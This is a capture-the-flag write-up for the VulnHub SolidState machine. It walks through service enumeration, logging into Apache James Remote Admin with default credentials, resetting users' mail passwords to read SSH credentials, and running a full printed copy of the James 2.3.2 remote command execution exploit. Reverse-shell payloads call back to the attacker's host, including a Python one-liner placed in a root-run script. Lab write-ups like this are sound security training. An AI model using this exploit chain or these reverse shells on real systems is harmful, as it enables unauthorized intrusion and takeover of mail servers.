



# <a href='https://www.vulnhub.com/entry/solidstate-1,261/' target="blank">VulnHub SolidState: 1</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## Enumeration

### Openning Services

``` bash
┌──(Hades㉿192.168.11.140)-[1.4:12.0]~/bash-script
└─$ sudo ./auto_enum.sh 192.168.11.141

Scanning openning port ...
[+] Openning ports: 22,25,80,110,119,4555
```

``` bash
┌──(Hades㉿192.168.11.140)-[5.1:12.1]~/bash-script
└─$ nmap -sC -sV 192.168.11.141 -p22,25,80,110,119,4555
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 06:41 EDT
Nmap scan report for 192.168.11.141
Host is up (0.00031s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (192.168.11.140 [192.168.11.140]), PIPELINING, ENHANCEDSTATUSCODES, 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.47 seconds
```

### Web Application


[+] Files and directories

``` bash
gobuster dir -k -u http://192.168.11.141:80 -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                         
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.11.141:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/16 09:34:06 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/assets               (Status: 301) [Size: 317] [--> http://192.168.11.141/assets/]
/images               (Status: 301) [Size: 317] [--> http://192.168.11.141/images/]
/index.html           (Status: 200) [Size: 7776]                                   
/server-status        (Status: 403) [Size: 302]                                    
                                                                                   
===============================================================
2021/03/16 09:34:07 Finished
===============================================================
```

[+] All URLs

``` bash
<title>Home - Solid State Security</title>                                                                                                                                  
<link rel="stylesheet" href="assets/css/main.css" />
<!--[if lte IE 9]><link rel="stylesheet" href="assets/css/ie9.css" /><![endif]-->
<!--[if lte IE 8]><link rel="stylesheet" href="assets/css/ie8.css" /><![endif]-->
<h1><a href="index.html">Solid State Security</a></h1>
<a href="#menu">Menu</a>
<li><a href="index.html">Home</a></li>
<li><a href="services.html">Services</a></li>
<li><a href="about.html">About Us</a></li>
<a href="#" class="close">Close</a>
<a href="#" class="image"></a>
<a href="#" class="image"></a>
<a href="#" class="image"></a>
<a href="#" class="image"></a>
<a href="services.html" class="special">Learn more</a>
<a href="#" class="image"></a>
<a href="services.html" class="special">Learn more</a>
<a href="#" class="image"></a>
<a href="services.html" class="special">Learn more</a>
<a href="#" class="image"></a>
<a href="services.html" class="special">Learn more</a>
<li><a href="services.html" class="button">Browse All</a></li>
<li class="fa-envelope"><a href="#">webadmin@solid-state-security.com</a></li>
```

### JAMES Server

SMTP

``` bash
nmap 192.168.11.141 -p25 --script=smtp-*
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-16 09:33 EDT
Nmap scan report for 192.168.11.141
Host is up (0.00032s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: solidstate Hello nmap.scanme.org (192.168.11.140 [192.168.11.140]), PIPELINING, ENHANCEDSTATUSCODES, 
| smtp-enum-users: 
|_  root
|_smtp-open-relay: Server is an open relay (4/16 tests)
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
MAC Address: 00:0C:29:E1:D2:9B (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
``` 

JAMES Remote Admin

Using JAMES Service, I tried the default credentials of JAMES Remote Admin `root:root` and gained the access.

``` bash
┌──(Hades㉿192.168.11.140)-[1.0:15.8]~
└─$ nc -nv 192.168.11.141 4555
(UNKNOWN) [192.168.11.141] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

## Foothold

### Mailbox to SSH credential

In the JAMES Remote Admin, I changed all user's passwd to 123456.

``` bash
listusers

Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword james 123456
Password for james reset
setpassword thomas 123456
Password for thomas reset
setpassword john 123456
Password for john reset
setpassword mindy 123456
Password for mindy reset
setpassword mailadmin 123456
Password for mailadmin reset
```

Revew mailbox and gather more information.

=== "script"

	``` bash
	┌──(Hades㉿192.168.11.140)-[0.4:30.2]~/bash-script/mailbox
	└─$ python mailbox.py 192.168.11.141
	MailBox: james
	+OK 0 0

	MailBox: thomas
	+OK 0 0

	MailBox: john
	+OK 1 743

	Mail: 1
	1 743
	.
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: john@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
	          for <john@localhost>;
	          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
	From: mailadmin@localhost
	Subject: New Hires access
	John, 

	Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

	Thank you in advance.

	Respectfully,
	James

	.

	MailBox: mindy
	+OK 2 1945

	Mail: 1
	1 1109
	2 836
	.
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
	          for <mindy@localhost>;
	          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Welcome

	Dear Mindy,
	Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

	We are looking forward to you joining our team and your success at Solid State Security. 

	Respectfully,
	James
	.

	Mail: 2
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
	          for <mindy@localhost>;
	          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Your Access

	Dear Mindy,


	Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
	Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

	username: mindy
	pass: P@55W0rd1!2@

	Respectfully,
	James

	.

	MailBox: mailadmin
	+OK 0 0
	```
	
=== "james"

	``` bash
	┌──(Hades㉿192.168.11.140)-[3.1:21.7]~
	└─$ nc -nC 192.168.11.141 110                                                                                                                                           1 ⨯
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	user james
	+OK
	pass 123456
	+OK Welcome james
	list
	+OK 0 0
	.
	quit
	+OK Apache James POP3 Server signing off.
	```

=== "thomas"

	``` bash
	┌──(Hades㉿192.168.11.140)-[3.1:21.8]~
	└─$ nc -nC 192.168.11.141 110
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	user thomas
	+OK
	pass 123456
	+OK Welcome thomas
	list
	+OK 0 0
	.
	quit
	+OK Apache James POP3 Server signing off.
	```

=== "john"

	``` bash
	┌──(Hades㉿192.168.11.140)-[3.1:21.8]~
	└─$ nc -nC 192.168.11.141 110
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	user john
	+OK
	pass 123456
	+OK Welcome john
	list
	+OK 1 743
	1 743
	.
	retr 1
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: john@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
	          for <john@localhost>;
	          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
	From: mailadmin@localhost
	Subject: New Hires access
	John, 

	Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

	Thank you in advance.

	Respectfully,
	James

	.
	quit
	+OK Apache James POP3 Server signing off.
	```

=== "mindy"

	``` bash
	┌──(Hades㉿192.168.11.140)-[3.1:21.8]~
	└─$ nc -nC 192.168.11.141 110
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	user mindy
	+OK
	pass 123456
	+OK Welcome mindy
	list
	+OK 2 1945
	1 1109
	2 836
	.
	retr 1
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
	          for <mindy@localhost>;
	          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Welcome

	Dear Mindy,
	Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst.
	Your role is critical in fulfilling the mission of our orginzation.
	The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role.
	The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

	We are looking forward to you joining our team and your success at Solid State Security. 

	Respectfully,
	James
	.
	retr 2
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
	          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
	          for <mindy@localhost>;
	          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Your Access

	Dear Mindy,


	Here are your ssh credentials to access the system.
	Remember to reset your password after your first login. 
	Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

	username: mindy
	pass: P@55W0rd1!2@

	Respectfully,
	James

	.
	quit
	+OK Apache James POP3 Server signing off.
	```

=== "mailadmin"

	``` bash
	┌──(Hades㉿192.168.11.140)-[3.1:21.8]~
	└─$ nc -nC 192.168.11.141 110
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	user mailadmin
	+OK
	pass 123456
	+OK Welcome mailadmin
	list
	+OK 0 0
	.
	quit
	+OK Apache James POP3 Server signing off.
	```

At here, I had a ssh credential `mindy:P@55W0rd1!2@`

``` bash
ssh mindy@192.168.11.141
```



## Privilege escalation

### James server RCE to bypass retrict bash

``` bash
┌──(Hades㉿192.168.11.140)-[0.6:16.0]~
└─$ searchsploit JAMES 2.3.2
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write  | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                     | linux/remote/35513.py
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Exploit `linux/remote/35513.py` need a user login to the system to run the payload.

=== "Modify and execute poc"

	Change payload to execute reverse shell

	``` bash
	payload = 'bash -i >& /dev/tcp/192.168.11.140/8080 0>&1' # to exploit on any user
	```

	Open listener and execute payload

	``` bash
	sudo nc -nvlp 8080
	```

	``` bash
	python 35513.py 192.168.11.141
	```

	``` bash
	ssh mindy@192.168.11.141
	```

=== "35513.py"

	``` python
	#!/usr/bin/python
	#
	# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
	# Date: 16\10\2014
	# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
	# Vendor Homepage: http://james.apache.org/server/
	# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
	# Version: Apache James Server 2.3.2
	# Tested on: Ubuntu, Debian
	# Info: This exploit works on default installation of Apache James Server 2.3.2
	# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

	import socket
	import sys
	import time

	# specify payload
	payload = 'bash -i >& /dev/tcp/192.168.11.140/8080 0>&1' # to exploit on any user 
	# payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
	# credentials to James Remote Administration Tool (Default - root/root)
	user = 'root'
	pwd = 'root'

	if len(sys.argv) != 2:
	    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
	    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
	    sys.exit(1)

	ip = sys.argv[1]

	def recv(s):
	        s.recv(1024)
	        time.sleep(0.2)

	try:
	    print "[+]Connecting to James Remote Administration Tool..."
	    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	    s.connect((ip,4555))
	    s.recv(1024)
	    s.send(user + "\n")
	    s.recv(1024)
	    s.send(pwd + "\n")
	    s.recv(1024)
	    print "[+]Creating user..."
	    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
	    s.recv(1024)
	    s.send("quit\n")
	    s.close()

	    print "[+]Connecting to James SMTP server..."
	    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	    s.connect((ip,25))
	    s.send("ehlo team@team.pl\r\n")
	    recv(s)
	    print "[+]Sending payload..."
	    s.send("mail from: <'@team.pl>\r\n")
	    recv(s)
	    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
	    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
	    recv(s)
	    s.send("data\r\n")
	    recv(s)
	    s.send("From: team@team.pl\r\n")
	    s.send("\r\n")
	    s.send("'\n")
	    s.send(payload + "\n")
	    s.send("\r\n.\r\n")
	    recv(s)
	    s.send("quit\r\n")
	    recv(s)
	    s.close()
	    print "[+]Done! Payload will be executed once somebody logs in."
	except:
	    print "Connection failed."
	```


### Using pspy to monitor process


All user can read, write, modify file `tmp.py`

``` bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -l /opt/tmp.py
ls -l /opt/tmp.py
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py
```

Create reverse shell python and replace file `tmp.py`

``` python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.140",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```



> I'M ROOT!

